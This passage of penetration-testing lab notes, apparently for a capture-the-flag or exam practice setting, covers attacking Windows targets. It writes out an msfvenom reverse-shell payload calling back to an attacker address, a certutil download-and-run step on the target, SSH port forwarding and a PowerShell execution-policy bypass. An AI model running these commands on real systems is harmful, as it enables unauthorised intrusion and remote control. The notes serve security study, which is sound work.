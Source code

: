Confirm flag hashes were found. root flag is in /root/proof.txt

```sh
cat /root/proof.txt
```

Submit hashes 

# Windows Targets

## Weaponize
Windows Exploit suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

make payloads with msfvenom
## Access
https://podalirius.net/en/articles/windows-reverse-shells-cheatsheet/


Kerberos Vulns
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

Create a windows reverse shell on kali

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x LPORT=4444 -f exe > payload.exe
```

Serve it with python from the local directory
```sh
python -m http.server 80
```

Download the payload on the target
```powershell
certutil -urlcache -split -f "http://192.168.x.x/payload.exe"
```

Run the reverse shell
```powershell
cmd /c C:\\ftp\\payload.exe
```

Port forward port 80 on target machine to remote attacking machine's port 80 via ssh
```sh
sudo ssh -L 80:192.168.49.131:80 ariah@192.168.131.99
```
## Privilege Escalation

Bypass PowerScript **E**xecution **P**ermission protections
```powershell
powershell -ep bypass
```
### File transfers
https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil
